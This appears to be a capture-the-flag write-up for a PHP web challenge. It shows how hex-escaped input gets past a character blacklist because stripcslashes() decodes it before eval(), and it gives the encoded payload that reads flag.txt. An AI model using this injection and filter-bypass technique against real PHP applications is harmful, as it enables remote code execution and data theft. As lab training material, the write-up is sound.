


Here we can upload our own `c`, and then it being saved in `/tmp/{something}`
we get the something (which is `sha(time)`) using the `session_id` cookie.

If we wanna access the content, we just need to supply GET parameter `cache_file`, and point to the right file.

Then, we can see it strip slashes from our file, and then eval it.
```php
echo eval (stripcslashes (file_get_contents ($_GET['cache_file'])));
```

The problem is that it filters the content, and replace all with `''`
```php
$fh = fopen('/tmp/' . $randVal, 'w');

fwrite (
    $fh,
            str_replace (
        ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
        '',
        $_GET['c']
    )
);
```

And that's where `stripcslashes` enters, if it gets `\x41`, it translates it to `A`, like in C language.
```php
php > echo "\\x41";
\x41
php > echo stripcslashes("\\x41");
A
```

So, we'll use CyberChef to create our payload:
```
echo file_get_contents("flag.txt");
```
and we got:
```
\x65\x63\x68\x6f\x20\x66\x69\x6c\x65\x5f\x67\x65\x74\x5f\x63\x6f\x6e\x74\x65\x6e\x74\x73\x28\x22\x66\x6c\x61\x67\x2e\x74\x78\x74\x22\x29\x3b
```



Now, just send it using burp, take the `session_id` and send its path in `cache_file` parameter.
 


**Flag:** ***`WEBSEC{stripcslashes_to_bypass}`*** 
